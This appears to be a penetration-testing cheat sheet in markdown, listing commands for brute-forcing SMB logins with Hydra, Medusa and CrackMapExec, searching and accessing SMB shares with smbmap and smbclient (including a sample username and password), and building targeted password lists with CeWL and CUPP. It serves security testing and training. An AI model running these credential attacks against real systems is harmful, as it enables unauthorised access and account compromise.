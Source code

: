 #### SMB Password Attacks
```bash
# Using Hydra
hydra -L users.txt -P passwords.txt smb://<IP>

# Using Medusa
medusa -U users.txt -P passwords.txt -h <IP> -M smbnt

# Using CrackMapExec
crackmapexec smb <IP> -u usernames.txt -p passwords.txt
```
#### SMB file locating 

```bash
smbmap -H <ip> -u <username> -p <password> -R | grep -B 5 <filename>

Example:
smbmap -H 192.168.10.101 -u Martin -p qwerty1234 -R | grep -B 5 webpent.txt
 
```
#### SMB login 

```bash
smbclient //<ip>/SHARENAME -U <username> 
```

## Building Wordlists

### CeWL (Custom Word List generator)
```bash
# Basic usage - create wordlist from website
cewl -m 5 -d 2 https://example.com -w wordlist.txt

# Parameters:
# -m 5: minimum word length of 5
# -d 2: crawl 2 levels deep
# -w: output file

# Extract email addresses
cewl -e https://example.com
```

### CUPP (Common User Passwords Profiler)
```bash
# Interactive mode
./cupp.py -i

# Follow prompts to create targeted password list

# Use built-in dictionaries
./cupp.py -l

# Generate from a name with specified configurations
./cupp.py -n John
```
